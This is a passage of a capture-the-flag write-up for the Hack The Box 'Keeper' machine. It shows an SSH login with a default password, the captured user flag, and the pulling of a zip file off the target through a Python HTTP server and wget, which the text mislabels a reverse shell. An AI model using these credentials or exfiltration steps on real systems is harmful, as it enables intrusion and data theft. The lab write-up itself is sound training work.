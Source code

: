 ![image](https://github.com/user-attachments/assets/c96e92de-e317-42ea-9dbe-2e6ddfb9ad9f)


**Let's SSH login:**<br>
`ssh user@ip `<br>
`ssh lnorgaard@keeper.htb`

**Enter password:** `Welcome2023!`<br>
![image](https://github.com/user-attachments/assets/9fb07e2d-531a-493a-b976-ea85780c9f85)


**We find the user.txt for the user flag as well as a RT30000.zip file**<br>
`whoami`<br>
`ls`<br>
`cat user.txt`<br>
![image](https://github.com/user-attachments/assets/ecb2d39f-a110-40fa-ae97-70d537b2e664)


**User flag captured:**<br>
`650cbb7d7e90f981a8421d68cb7dcbc4`

We found the first User flag by remote SSH into the target machine exploiting publicly known credentials.<br>
**Mitigation:** As admin and users, always change the default credentials during setup and configurations to practice good cyber hygiene.<br>
An example would be on user account creation to require a password reset within a specific timeframe.

## Privilege Escalation
Additionally, let's see if we have any sudo permissions on any commands<br>
![image](https://github.com/user-attachments/assets/978c4560-27af-4bf0-8bfc-86a55af9559d)

## Exfiltration
**No additional sudo user permissions, so let's just take the `RT30000.zip` file back with us using a reverse shell:**<br>

While on Inorgard@keeper:<br>
`python3 -m http.server`<br>
![image](https://github.com/user-attachments/assets/e4d64dbc-f24d-4ab4-818a-0c4ab1c8a1e6)

From our host machine:<br>
`wget http://10.10.11.227:8000/RT30000.zip`<br>
![image](https://github.com/user-attachments/assets/3841335c-bad6-4009-96fc-6e6b0dada476)

Target machine confirms it is sending as well with HTTP 200 signal<br>
![image](https://github.com/user-attachments/assets/fc19ea39-d023-4c02-b1b9-fef09176943d)

On our host machine, confirm we have the file.<br>
`ls` <br>
![image](https://github.com/user-attachments/assets/32daa3f7-3365-4a17-b04c-2c903c094743)
